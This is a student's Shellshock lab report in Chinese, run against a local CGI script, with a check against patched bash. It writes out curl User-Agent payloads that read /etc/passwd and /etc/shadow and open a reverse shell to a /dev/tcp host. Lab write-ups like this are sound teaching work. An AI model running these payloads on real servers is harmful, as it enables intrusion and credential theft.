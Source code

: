 # Shellshock Attack Lab

> Author: 1120162015 李博

## Task1: Experimenting with Bash Function 

### /bin/bash_shellshock

如下图，使用`bash 4.2.0`版本。

![shellshock_version](../images/lab2-task1-shellshock_version.png)

结果如下，可以看到父进程定义的函数被成功传递到子进程，存在`shellshock`漏洞。

![shellshock](../images/lab2-task1-shellshock.png)

###  /bin/bash

如下图，使用`bash 4.3.46`版本。

![bash_version](../images/lab2-task1-bash_version.png)

可以看到在父进程中定义的函数并没有传递到子进程，

![bash](../images/lab2-task1-bash.png)

## Task2: Setting up CGI programs

设置如下图

![setup_cgi](../images/lab2-task2-setup-cgi.png)

## Task3: Passing Data to Bash via Environment Variable

结果如下图

![test_cgi](../images/lab2-task3-test-cgi.png)

远程用户之所以能获取到系统当前shell的环境变量信息，是因为通过`curl`命令访问http://localhost/cgi-bin/myprog.cgi，而`myprog.cgi`的功能就是打印当前shell进程的环境变量。

## Task4: Launching the Shell shock Attack

### Step1: 获取秘密文件内容(/etc/passwd)

执行命令`curl -A "() { echo 233; }; echo Content-type:text/plain; echo; /bin/cat /etc/passwd" http://localhost/cgi-bin/myprog.cgi`

![cat_passwd](../images/lab2-task4-cat-passwd.png)

### Step2: 获取`/etc/shadow`内容

执行命令`curl -A "() { echo 233; }; echo Content-type:text/plain; echo; /bin/cat /etc/shadow" http://localhost/cgi-bin/myprog.cgi`

结果如下

![cat_shadow](../images/lab2-task4-cat-shadow.png)

可以看到**没有成功获取**。

于是打印一下执行`/bin/cat /etc/shadow`时的`whoami`。

执行命令`curl -A "() { echo 233; }; echo Content-type:text/plain; echo; /usr/bin/whoami" http://localhost/cgi-bin/myprog.cgi`

![whoami](../images/lab2-task4-whoami.png)

可以看到结果为`www-data`，这就是我们执行`/bin/cat /etc/shadow`失败的原因，因为获取`/etc/shadow`的内容需要`root`权限。

![sudo-cat-shadow](../images/lab2-task4-sudo-cat.png)

## Task5: Getting a Reverse Shell via Shellshock Attack

这里使用本机localhost当做远程服务器，ip为`192.168.33.131`。

![ifconfig](../images/lab2-task5-ifconfig.png)

首先执行命令`curl -A "() { echo 233; }; echo Content_type:text/plain; echo; /bin/bash_shellshock -i > /dev/tcp/192.168.33.131/9090 0>&1" http://localhost/cgi-bin/myprog.cgi`。

这行命令的关键在于`/bin/bash_shellshock -i > /dev/tcp/192.168.33.131/9090 0>&1`，解释如下。

> `/bin/bash_shellshock`代表有漏洞的bash
>
> `-i`代表可交互式的shell
>
> `>` 代表将bash的标准输出重定向至`192.168.33.131`的9090端口
>
> `0>&1`代表将标准输入重定向至标准输出，而在上面bash的标准输出已重定向至tcp连接，故这里的标准输入也指向tcp连接。

综上，实现bash的输出显示在tcp连接中，并且bash的输入从tcp连接获取，达到reverse shell的目的。

结果如下

![reverse_shell](../images/lab2-task5-reverse-shell.png)



## Task6: Using the Patched Bash 

### Step1: Passing Data to Bash via Environment Variable

结果如下，和`bash_shellshock`的输出无差异，因为该命令与是否有`shellshock`漏洞无关。

![task3_repeat](../images/lab2-task6-task3.png)

### Step2: Launching the Shell shock Attack

执行命令`curl -A "() { echo 233; }; echo Content-type:text/plain; echo; /bin/cat /etc/passwd" http://localhost/cgi-bin/myprog.cgi`。

![task4_repeat](../images/lab2-task6-task4.png)

可以看到并没有执行`/bin/cat /etc/passwd`，因为bash中`shellshock`漏洞被修复。

### Step3: Getting a Reverse Shell via Shellshock Attack

执行命令`curl -A "() { echo 233; }; echo Content_type:text/plain; echo; /bin/bash -i > /dev/tcp/192.168.33.131/9090 0>&1" http://localhost/cgi-bin/myprog.cgi`。

![task5_repeat](../images/lab2-task6-task5.png)

可以看到反弹shell也失败了，原因在于bash中`shellshock`漏洞被修复，无法执行额外的命令。

